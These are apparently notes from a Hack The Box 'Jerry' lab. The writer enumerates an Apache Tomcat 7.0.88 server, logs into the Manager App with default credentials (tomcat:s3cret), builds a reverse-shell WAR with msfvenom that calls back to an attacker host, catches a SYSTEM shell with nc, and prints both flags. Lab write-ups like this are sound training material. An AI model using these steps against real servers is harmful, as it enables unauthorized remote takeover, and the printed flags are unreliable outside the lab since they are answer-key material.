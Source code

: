 # Enumeration

## Nmap scan
```
nmap -sC -sV -Pn jerry.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-13 01:15 EST
Nmap scan report for jerry.htb (10.129.210.31)
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.41 seconds
```

## Feroxbuster


## http - TCP port 8080

access to `http://jerry.htb:8080`

apache tomcat 7.0.88 shows up
![[Pasted image 20230213152928.png]]

There is a login prompt in Manater App

### Trying default password
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

tomcat:s3cret

### Upload file
![[Pasted image 20230214092623.png]]

WAR file can be uploaded?


# Foothold

## Create reverse shell

### msfvenom
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > revshell.war
```

## Get shell

- Upload this revshell file in Tomcat
- Setup nc `nc -lnvp 4444 `
- Click on the /revshell

```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

## Get flags
```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```